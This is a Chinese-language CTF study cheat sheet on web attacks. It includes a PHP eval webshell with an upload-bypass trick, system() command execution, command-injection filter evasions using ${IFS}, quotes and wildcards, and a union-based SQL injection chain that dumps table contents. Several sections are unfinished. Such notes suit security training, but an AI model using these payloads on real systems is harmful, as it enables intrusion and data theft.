


## 请求

1. get请求

   1. 直接在链接后面加 ?需要的数据，==不需要在？前加/==

2. post 请求

   1. 使用hackbar，在post输入要输入的内容

3. json

   1. 格式 json = {“key”:”value}

4. 本地环回地址

   1. ```
      X-Forwarded-For:127.0.0.1
      ```

5. 注意大小写

## 登录

1. 用户名密码登录
   1. 步骤
      1. 看网页信息，看源码，
   
      ## PHP脚本
   
      1. 双写绕过
   
         
   
         1. 直接在get中设置两个
   
      2. 一句话木马
   
         1. 通过上传一个php文件，找到该文件在服务器中的位置，将其进行访问（相当于执行该文件)，
   
         2. 可以使用蚁剑进行连接，密码是上传的变量名
   
            1. 一般flag所在目录为ur/flag
   
         3. ```bash
             <?php @eval($_POST['abc']);?>
            ```
   
         4. 一句话木马可能限制实际上传文件格式为php，通过将文件后缀名改为.hptml进行绕过
   
      3. phpinfo
   
         1. 通过在php文件中编写phpinfo函数，再将其访问，前端自动返回，进行查找flag
   
         2. ```bash
            <?php phpinfo(); ?>
            ```
   
      4. PHP执行系统命令
   
         1. 通过传递参数，再执行参数
   
            1. 参数的格式：若要执行系统命令，则 
   
            2. ```bash
               system("ls /");
               ```
   
               1. 必须命令加路径，不能只有命令没有路径
               2. 必须结尾用封号结尾，表示一条命令结束
   
      5. eval（）函数
   
         1. 将所有收到的参数当做命令执行
            1. 不包含数字和字母的命令
               1. 通过将
   
   
      ## 文件
   
      1. 访问文件
   
         1. 防爬虫协议
            1. /robots/robots.txt
   
      2. vim编辑文件
   
         1. 其未完成会生成一个临时文件，.文件名.后缀.swp
         2. 使用wappalyzer看其使用的框架，PHP默认框架的默认文件是.index.php,则其临时文件可能是.index.php.swp
   
      3. 上传文件时，可能对文件类型限制，先将想要上传的文件后缀设为要求的文件后缀，但可以在请求头中保持上传文件类型不变，再在其上传文件名中进行修改其后缀，再使用蚁剑进行访问
   
      4. file协议
         1. file:///文件路径,///可在前面多次重复
      5. 
   
   
      ## 检查
   
      1. 源代码
   
         ## MD5
   
         1. 登录的哈希验证
            1. a ！= b

## 系统命令注入

1. 发生条件

   1. 有执行命令函数
   2. 函数里有用户输入的变量，参数

2. 方式

   1. 确定执行变量时，在正常输入后加分号加命令。ip;ls/

3. 系统禁止命令解决

   1. 禁用空格：

      1. 通过设置一个空的变量表示空，需要将其括起来，eg:

      ```php
      cat${IFS}flag.php
      ```

      1. 使用< eg ：cat<flag.php
      2. <> :cat<>flag.php
      3. ,  :{cat,flag.php}

   2. 关键字屏蔽

      1. 转义：\ 反斜杠进行转义，其读取到\,但执行时并不执行该语句：cat f\lag.php
      2. ‘’ 转义：通过在关键字中间插入‘’来进行接触:  cat f’’lag.php
      3. 拆分再重组：‘fla’ +“g”
      4. 通配符匹配：fla*
         1. cat fla？.php：单个字符
         2. cat fla[f-h].php：中间字符
         3. cat fla{f ..h}.php：每个字符执行一遍
      5. 内联执行：
         1. 调整顺序，通过使用’‘将先执行的括起来，cat ’ls  | grep fla‘
      6. 使用变量，先定义变量，再进行拼接

      ## SQL
   
      ## 判断字段：
   
      ```
      ?wllm=-1' order by 3--+
      ```
   
      ## 查看回显点：
   
      ```
      ?wllm=-1' union select 1,2,3--+
      ```
   
      ## 查寻库名：
   
      ```
      ?wllm=-1' union select 1,2,database()--+`
      `//test_db
      ```
   
      ## 查询表明
   
      ```
      ?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+`
      `//test_tb,users
      ```
   
      ## 查询字段名
   
      ```
      ?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+`
      `//flag
      ```
   
      ## 查询flag表里面内容
   
      ```
      /?wllm=-1' union select 1,2,group_concat(id,flag) from test_tb--+
      ```

## cev

1. 截断请求：

